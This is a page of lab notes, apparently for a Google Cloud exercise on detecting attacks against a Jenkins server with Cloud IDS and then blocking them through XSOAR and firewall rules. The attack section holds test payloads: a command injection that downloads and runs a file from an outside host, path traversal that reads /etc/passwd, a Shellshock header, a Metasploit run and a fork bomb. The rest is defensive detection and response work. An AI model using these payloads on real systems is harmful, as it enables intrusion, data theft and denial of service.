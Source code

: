 ### GSP1117 :  Enhancing Google Cloud Network Security 

<img width="895" alt="Ac9SwKvKfspE1ZKfqcy_VZ+IJUJ4sQoqI0fJoNzznv4=" src="https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/5e0ddde9-c38f-40f0-8b29-dda836d1c737">

![image](https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/c4830dc2-7d43-44ab-8b47-830a8b701899)


# Kali attack launch against JENKINS 

```
ssh kali@34.168.0.62
//kali

wget www.eicar.org/download/eicar.com.txt --tries 5

curl http://192.168.11.4:8080/?[1-10]

curl "http://192.168.11.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
curl http://192.168.11.20/?item=../../../../WINNT/win.ini
curl http://192.168.11.20/eicar.file
curl http://192.168.11.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
echo done
```

```
msfconsole -r jenkins.rc

python -c 'import pty; pty.spawn("/bin/bash")'

whoami

:(){ :&:;};:
```

# CloudIDS Query

```
resource.type:("ids.googleapis.com/Endpoint") AND resource.labels.location:("us-west1-a")
jsonPayload.application="jenkins"
```

# XOAR

```
gcloud pubsub topics create cloud-ids-topic

gcloud pubsub subscriptions create cloud-ids-sub \
    --topic="cloud-ids-topic" \
    --ack-deadline="10" \
    --expiration-period="2678400s" \
    --message-retention-duration="604800s"

gcloud compute firewall-rules create xsoar-blacklist \
    --direction=INGRESS \
    --priority=10 \
    --network=panw-trust-vpc \
    --action=DENY \
    --rules=all \
    --source-ranges=1.1.1.1
```


# Sink Inclusion Filter 

```
logName="projects/qwiklabs-gcp-02-927b48c7055b/logs/ids.googleapis.com%2Fthreat"
jsonPayload.alert_severity="CRITICAL"
```

# XOAR 

```
//Service Account Private Key File (JSON)

//Playbook : Cloud IDS-IP Blacklist-GCP Firewall_Combine
```

![image](https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/eb5b8b2d-e4d1-4805-83a3-9dd2192be1bf)



# SSH Kali 

```
ssh kali@34.168.0.62
//kali

curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
```

# XOAR Incidents 

```
type:"google cloud IDS" and status:Closed
```




